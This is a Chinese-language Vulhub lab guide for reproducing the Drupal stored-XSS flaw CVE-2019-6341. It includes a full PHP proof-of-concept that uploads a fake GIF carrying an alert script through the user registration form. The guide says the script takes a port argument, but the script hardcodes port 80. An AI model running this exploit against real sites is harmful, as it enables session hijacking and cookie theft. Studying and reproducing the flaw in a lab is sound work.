

# Drupal XSS漏洞 CVE-2019-6341

## 漏洞描述

影响软件：Drupal

方式：通过文件模块或者子系统上传恶意文件触发XSS漏洞

参考链接：[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)

效果：JS代码执行（Cookies 资料窃取、会话劫持、钓鱼欺骗、网页挂马等）

## 环境搭建

Vulhub执行如下命令启动drupal 8.5.0的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

该漏洞需要利用drupal文件模块上传文件的漏洞，伪造一个图片文件，上传，文件的内容实际是一段HTML代码，内嵌JS，这样其他用户在访问这个链接时，就可能触发XSS漏洞。

Drupal 的图片默认存储位置为 `/sites/default/files/pictures/<YYYY-MM>/`，默认存储名称为其原来的名称，所以之后在利用漏洞时，可以知道上传后的图片的具体位置。

使用PoC上传构造好的伪造GIF文件，PoC参考[thezdi/PoC](https://github.com/thezdi/PoC/tree/master/Drupal)的PoC。

如图，输入如下命令，即可使用`vulhub/drupal/CVE-2019-6341`目录下的poc构造样本并完成上传功能，第一个参数为目标IP 第二个参数为目标端口。

```bash
php cve-2019-6341-exp.php 192.168.11.1 8080
```


上传成功后，访问图片位置，即可触发 XSS 漏洞。

Tips:

1. 因为 Chrome 和 FireFox 浏览器自带部分过滤 XSS 功能，所以验证存在时可使用 IE 浏览器。
2. 访问的图片名称为_0的原因是因为 Drupal 的规则机制，具体原理见[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)



> 此处复现不不成功，虽然xss代码上传成功，但是没有被正确解析。
>
> 只有IE浏览器可以正确解析xss并弹框。

## 漏洞POC

```php
<?php
/*
usage: php poc.php <target-ip>

Date: 1 March 2019
Exploit Author: TrendyTofu
Original Discoverer: Sam Thomas
Version: <= Drupal 8.6.2
Tested on: Drupal 8.6.2 Ubuntu 18.04 LTS x64 with ext4.
Tested not wokring on: Drupal running on MacOS with APFS
CVE : CVE-2019-6341
Reference: https://www.zerodayinitiative.com/advisories/ZDI-19-291/

*/

$host = $argv[1];
$port = 80;

$pk =   "GET /user/register HTTP/1.1\r\n".
	"Host: ".$host."\r\n".
	"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n".
	"Accept-Language: en-US,en;q=0.5\r\n".
	"Referer: http://".$host."/user/login\r\n".
	"Connection: close\r\n\r\n";

$fp = fsockopen($host,$port,$e,$err,1);
if (!$fp) {die("not connected");}
fputs($fp,$pk);
$out="";
while (!feof($fp)){
  $out.=fread($fp,1);
}
fclose($fp);

preg_match('/name="form_build_id" value="(.*)"/', $out, $match);
$formid = $match[1];
//var_dump($formid);
//echo "form id is:". $formid;
//echo $out."\n";
sleep(1);

$data = 
"Content-Type: multipart/form-data; boundary=---------------------------60928216114129559951791388325\r\n".
"Connection: close\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"mail\"\r\n".
"\r\n".
"test324@example.com\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"name\"\r\n".
"\r\n".
"test2345\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"files[user_picture_0]\"; filename=\"xxx\xc0.gif\"\r\n".
"Content-Type: image/gif\r\n".
"\r\n".
"GIF\r\n".
"<HTML>\r\n".
"	<HEAD>\r\n".
"		<SCRIPT>alert(123);</SCRIPT>\r\n".
"	</HEAD>\r\n".
"	<BODY>\r\n".
"	</BODY>\r\n".
"</HTML>\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"user_picture[0][fids]\"\r\n".
"\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"user_picture[0][display]\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"form_build_id\"\r\n".
"\r\n".
//"form-KyXRvDVovOBjofviDPTw682MQ8Bf5es0PyF-AA2Buuk\r\n".
$formid."\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"form_id\"\r\n".
"\r\n".
"user_register_form\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"contact\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"timezone\"\r\n".
"\r\n".
"America/New_York\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_triggering_element_name\"\r\n".
"\r\n".
"user_picture_0_upload_button\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_triggering_element_value\"\r\n".
"\r\n".
"Upload\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_drupal_ajax\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[theme]\"\r\n".
"\r\n".
"bartik\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[theme_token]\"\r\n".
"\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[libraries]\"\r\n".
"\r\n".
"bartik/global-styling,classy/base,classy/messages,core/drupal.ajax,core/drupal.collapse,core/drupal.timezone,core/html5shiv,core/jquery.form,core/normalize,file/drupal.file,system/base\r\n".
"-----------------------------60928216114129559951791388325--\r\n";

$pk = 	"POST /user/register?element_parents=user_picture/widget/0&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1\r\n".
	"Host: ".$host."\r\n".
	"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0\r\n".
	"Accept: application/json, text/javascript, */*; q=0.01\r\n".
	"Accept-Language: en-US,en;q=0.5\r\n".
	"X-Requested-With: XMLHttpRequest\r\n".
	"Referer: http://" .$host. "/user/register\r\n".
	"Content-Length: ". strlen($data). "\r\n".
	$data;

echo "uploading file, please wait...\n";

for ($i =1; $i <= 2; $i++){
$fp = fsockopen($host,$port,$e,$err,1);
if (!$fp) {die("not connected");}
fputs($fp,$pk);
$out="";
while (!feof($fp)){
  $out.=fread($fp,1);
}
fclose($fp);

echo "Got ".$i."/2 500 errors\n";
//echo $out."\n";
sleep(1);
}

echo "please check /var/www/html/drupal/sites/default/files/pictures/YYYY-MM\n";

?>
```

